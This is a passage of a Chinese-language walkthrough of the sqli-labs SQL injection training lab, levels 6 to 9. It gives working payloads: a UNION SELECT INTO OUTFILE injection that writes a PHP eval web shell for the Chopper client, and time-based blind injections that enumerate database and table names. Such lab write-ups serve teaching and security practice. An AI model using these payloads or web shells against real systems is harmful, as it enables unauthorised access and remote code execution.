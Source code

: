 闭合与less5不同

>   `$id = '"'.$id.'"';`
>   `$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`

## Less7

这关是向服务器写一句话写入文件，之后菜刀连接。

写入的话需要权限：secure_file_priv的值

secure-file-priv参数是用来限制LOAD DATA, SELECT … OUTFILE, and LOAD_FILE()传到哪个指定目录的。

1、当secure_file_priv的值为null ，表示限制mysqld 不允许导入|导出

2、当secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下

3、当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

注意：
 1、outfire 后面的路径为绝对路径且存在
 2、要有足够的权限
 3、注入的内容也可以是字符串，句子
 4、要想注入新内容，需要新的文件名

>   ?id=-1')) union select 1,"<?php @eval($_POST['chopper']);?>",3  into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\123456.php" --+

## Less8

单引号

当然，布尔和时间盲注也OK。但是报错注入就不OK了。

## Less9

单引号闭合的时间注入

### 基于时间的盲注

猜库：

>   id=1' and if(ascii(substr(database(),1,1))=115,1,sleep(5))--+

猜表：

>   id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101,1,sleep(5))--+

第二位：

>   id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),2,1))=101,1,sleep(5))--+

第二个表：

>   id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),1,1))=101,1,sleep(5))--+
